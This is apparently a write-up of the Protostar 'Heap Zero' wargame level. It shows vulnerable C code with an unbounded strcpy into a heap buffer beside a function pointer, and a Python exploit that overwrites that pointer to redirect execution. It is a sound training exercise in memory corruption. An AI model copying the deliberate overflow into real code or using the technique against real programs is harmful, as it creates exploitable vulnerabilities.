

# Heap Zero

## Description

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Exploit script

```python
from os import system

payload =  "A"*72
payload += "\x64\x84\x04\x08"   # winner -> 0x08048464

system('./heap0 ' + '\"' + payload + '\"')
```

Level passed!

<p align="center">
    
</p>